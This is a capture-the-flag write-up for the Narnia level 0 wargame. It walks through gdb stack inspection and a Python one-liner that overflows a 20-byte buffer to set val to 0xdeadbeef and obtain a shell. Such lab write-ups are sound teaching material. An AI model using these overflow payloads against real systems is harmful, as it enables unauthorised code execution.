* The **address** of **val** = **0xffffd62c**
		
		gdb-peda$ print $esp + 0x2c
		$1 = (void *) 0xffffd62c
		gdb-peda$ x/xw 0xffffd62c
		0xffffd62c:	0x41414141
		gdb-peda$ 

* Let us move on to the string input part. Instruction **<main+57>**. Looking at the arguments pushed into the stack for scanf(), we are interested in the second argument / **buf** , which is the **starting address** of the string. 

		[------------------------------------stack-------------------------------------]
		0000| 0xffffd600 --> 0x80486e9 ("%24s")
		0004| 0xffffd604 --> 0xffffd618 --> 0xffffd6dc --> 0xffffd818 ("XDG_SESSION_ID=13039")

* The **top** of stack has the address of the **format string**. The argument below it is the address of **buf**. From this, **Address** of **buf** = **0xffffd618**.

* Now, let us find the **difference** between the addresses of **val** and **buf**. 
	* **0xffffd618 - 0xffffd62c** = **-20**
	* This means, the **buf** is above **val** in the stack, and as the size of **buf** = 20, there is no gap between the **last byte of **buf** and **val** integer. 

* To get the concept, let us look at the stack. 
			
			0x0804859b in main ()
		gdb-peda$ x/8xw 0xffffd618
		0xffffd618:	0x61616161	0x61616161	0x61616161	0x61616161
		0xffffd628:	0x61616161	0x41006161	0xf7fc7000	0x00000000
		gdb-peda$ 


	* I had entered **22** **a**s. The string has **overflowed** into **val** and overwritten 3 bytes.(0x41414141 has now become 0x41006161)

* Now, it is **100%** clear, that the last 4 bytes of **scanf()** is present to overwrite **val**.

* From here, we can use **python -c** to generate the input string. 

* This method might seem long on post, but it just takes about 5 min to do all the calculations and come up with the right payload. 
* The exploit written using this method will have really high chances of succeeding because, we know internally what is happening unlike the method explained to get the password.

2. Why did I add **cat** after the input payload?

* I started experimenting with simple commands first. I used **echo**.
		
		narnia0@narnia:/narnia$ (python -c "print 'a' * 20 + '\xef\xbe\xad\xde'"; echo "pwnthebox") | ./narnia0
		Correct val's value from 0x41414141 -> 0xdeadbeef!
		Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ�
		val: 0xdeadbeef
		/bin/sh: 1: pwnthebox: not found
		narnia0@narnia:/narnia$ 
	* I added **echo "pwnthebox"**. Look at the output. It says **/bin/sh: 1: pwnthebox: not found**	
	